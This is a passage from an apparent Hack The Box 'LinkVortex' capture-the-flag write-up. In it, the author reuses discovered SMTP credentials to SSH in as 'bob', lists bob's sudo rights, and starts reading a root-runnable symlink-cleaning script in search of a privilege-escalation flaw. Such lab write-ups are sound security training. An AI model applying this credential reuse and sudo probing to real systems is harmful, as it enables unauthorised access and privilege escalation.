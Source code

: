 ```
}
Enter the file path to read (or type 'exit' to quit): exit
Exiting. Goodbye!
```

We have found another credentials! It seems that they are used to configure SMTP server, let's check if `bob` is resuing those to access `linkvortex.htb` over SSH.
```
┌──(magicrc㉿perun)-[~/attack/HTB LinkVortex]
└─$ ssh bob@linkvortex.htb
The authenticity of host 'linkvortex.htb (10.129.22.221)' can't be established.
ED25519 key fingerprint is SHA256:vrkQDvTUj3pAJVT+1luldO6EvxgySHoV6DPCcat0WkI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'linkvortex.htb' (ED25519) to the list of known hosts.
bob@linkvortex.htb's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Dec  3 11:41:50 2024 from 10.10.14.62
bob@linkvortex:~$ id
uid=1001(bob) gid=1001(bob) groups=1001(bob)
```

Yes he is! We have gained foothoold, let's grab the user flag and proceed to elevation of privilages.
```
bob@linkvortex:~$ cat /home/bob/user.txt 
********************************
```

# Privileges escalation
Let's start with listing sudo privileges for `bob`.
```
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

There is one entry, let's look for vulnerabilities in `/opt/ghost/clean_symlink.sh`.
```
bob@linkvortex:~$ cat -n /opt/ghost/clean_symlink.sh
     1  #!/bin/bash
     2
     3  QUAR_DIR="/var/quarantined"
     4
     5  if [ -z $CHECK_CONTENT ];then
     6    CHECK_CONTENT=false
     7  fi
     8
     9  LINK=$1
    10
    11  if ! [[ "$LINK" =~ \.png$ ]]; then
    12    /usr/bin/echo "! First argument must be a png file !"
```